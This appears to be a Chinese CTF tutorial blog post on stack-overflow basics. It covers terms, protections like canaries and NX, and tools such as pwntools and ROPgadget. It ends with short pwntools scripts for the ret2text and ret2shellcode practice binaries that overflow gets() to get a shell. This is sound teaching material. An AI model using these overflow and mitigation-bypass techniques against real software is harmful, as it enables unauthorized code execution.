 ```yaml
---
layout: post
title: 栈溢出基础
subtitle: "基础内容"
author: "bo"
header-img: "img/post-bg-halting.jpg"
header-mask: 0.3
---
```

### 基础知识和基本工具
#### 1. 基本名词
>    1. **poc** (proof of concept)：漏洞概念证明。
>    2. **vul** (vulnerable) ：漏洞
>    3. **exp** (exploit)：漏洞利用
>    4. **ELF** (Executable and Linkable Format)： 可执行和可链接的格式，它是关于可执行文件，对象代码，共享库和内核导出的一种公共标准文件，由三个部分组成，program head table，section head table，data referred to above;
>5. **PIC**(position-independent code)：位置无关代码。PIC是可以在主存中不同位置执行的目标代码。PIC经常被用在共享库中，这样就能将相同的库代码为每个程序映射到一个位置，不用担心覆盖掉其他程序或共享库。
   >6. **PIE**(position-independent executable)位置无关可执行程序。它有一个显著的优点，那就是当程序加载时，所有PIE二进制文件以及它所有的依赖都会加载到虚拟内存空间中的随机位置（随机地址），可以有效提高他人通过绝对地址实施"return-to-libc"安全攻击的难度。
   >7. **GOT**(global offset table):全局偏移量表
   >8. PLT(procedure linkage table):过程链接表;
 >9. 栈溢出四种方式  
     > 1.**shellcode**  
     > 2.**return** **into**   **libc**  
     > 3.**return** **oriented**  **programming**  
     > 4.**Hijack Got**  
>10. a
#### 2. 基本防御机制
   1. **Canary**:
   往栈溢出高危区域尾部插入一个值，来判断溢出是否发生。
   
   >可以在 GCC 中使用以下参数设置 Canary:

```
-fstack-protector 启用保护，不过只为局部变量中含有数组的函数插入保护
-fstack-protector-all 启用保护，为所有函数插入保护
-fstack-protector-strong
-fstack-protector-explicit 只对有明确stack_protect attribute的函数开启保护
-fno-stack-protector 禁用保护.
```
其stack结构大致如下

            High
        Address |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | 局部变量        |
        Low     |                 |
        Address
具体实现及绕过方式，点击查看[Canary](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/Canary/)

其他安全机制[Windows和linux内存防护机制](https://blog.csdn.net/x_nirvana/article/details/61420056)
#### 3. 常用工具
   1. gdb ： Linux上的基本调试工具。
   2. gdb-peda：用于加强gdb功能，gef和gdbinit与其类似。
   3. pwntools：是一个ctf框架和漏洞利用开发库。
   4. checksec 一个脚本软件，用于检查可执行文件属性.   
      1. RELRO：RELRO会有Partial RELRO和FULL RELRO，如果开启FULL RELRO，意味着我们无法修改got表 
      2. Stack：如果栈中开启Canary found，那么就不能用直接用溢出的方法覆盖栈中返回地址，而且要通过改写指针与局部变量、leak canary、overwrite canary的方法来绕过 
      3. NX：NX enabled如果这个保护开启就是意味着栈中数据没有执行权限，以前的经常用的call esp或者jmp esp的方法就不能使用，但是可以利用rop这种方法绕过 
      4. PIE：PIE enabled如果程序开启这个地址随机化选项就意味着程序每次运行的时候地址都会变化，而如果没有开PIE的话那么No PIE (0x400000)，括号内的数据就是程序的基地址 
      5. FORTIFY：FORTIFY_SOURCE机制对格式化字符串有两个限制(1)包含%n的格式化字符串不能位于程序内存中的可写地址。(2)当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。
   5. objdump和readelf:可以很快的知道elf文件关键信息；   
   6. ida pro :反编译工具；   
   7. ROPgadget: 强大的的rop利用工具
   8. one_gadget:可以快速的寻找libc中的调用exec(‘bin/sh’)的位置 ;
   9.  libc-database： 可以通过泄露的libc的某个函数地址查出远程系统是用的哪个libc版本 
   

#### 4. 简单实战入门

1. 首先是一个签到题   
    1. 用gdb打开，然后 检查他保护
图1
     2. 之后用idb打开。
图2
发现中间有一个gets函数，没有限制长度，所以去文件里面，查找，发现一个函数里面调用了system函数，那就记录这个地址。
图3
     3. 之后再在gets函数这里下断点，计算出esp和ebp之间的距离再加上4，就是需要覆盖的返回地址了。结果是112
     4. 最后写出 exploit
```python
from pwn import *
shell = process('./ret2text')
target = 0x804863a
payload = 'A'*112 + p32(target)
shell.sendline(payload)
shell.interactive()



```
2. ret2shellcode
   这个略过，注意 vmmap gdb插件命令，能查看相应段的执行权限，直接上代码
```python
from pwn import *
shell = process('./ret2shellcode')
target = 0x0804A080
payload = asm(shellcraft.sh()).ljust(112,'A') + p32(target)
shell.sendline(payload)
shell.interactive()
```
3. 